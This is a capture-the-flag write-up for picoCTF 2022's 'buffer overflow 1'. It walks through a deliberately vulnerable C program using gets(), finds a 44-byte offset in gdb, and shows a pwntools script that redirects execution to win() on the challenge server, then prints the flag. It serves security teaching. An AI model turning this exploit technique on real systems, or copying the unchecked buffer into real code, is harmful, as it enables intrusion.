

# buffer overflow 1 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description


 
## buffer overflow 1 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_1]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

We need to change the return address from ```vuln``` function to the address of ```win``` function.

Let's find the address of ```win``` function using ```gdb```:
```console
gef➤  p win
$1 = {<text variable, no debug info>} 0x80491f6 <win>
```

We can overwrite the return address using ```gets(buf)``` on ```vuln``` function, The buffer size is 32.

Let's find the offset between ```buf``` to ```EIP```:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_1/vuln 
Please enter your string: 
AAAAAAAA

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rwx
  0x804d1a0 - 0x804d1aa  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd050 - 0xffffd058  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x80492a3 in vuln; saved eip = 0x804932f
 called by frame at 0xffffd0b0
 Arglist at 0xffffd03c, args: 
 Locals at 0xffffd03c, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

We can see the buffer located on ```0xffffd050``` and ```EIP``` on ```0xffffd07c```, The offset is 44 bytes (0xffffd07c - 0xffffd050).

Meaning that we need to insert ```44``` bytes of chunk and then the address of ```win``` function:
```c
...|         buf[32]         |    12bytes   |    EIP   | ....
````

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
    p = remote('saturn.picoctf.net',61406)
else:
    p = process(elf.path)

# payload buffer
payload = b'A'*44
payload += p32(0x80491f6)

print(p.recvuntil(':'))
p.send(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_1]
└──╼ $ python3 bof1.py REMOTE
[*] '/pictoctf2022/binary_exploitation/bof_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 61406: Done
b'Please enter your string:'
[*] Switching to interactive mode
 
$ 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_60fac6aa}
[*] Got EOF while reading in interactive

```

And we get the flag ```picoCTF{addr3ss3s_ar3_3asy_60fac6aa}```.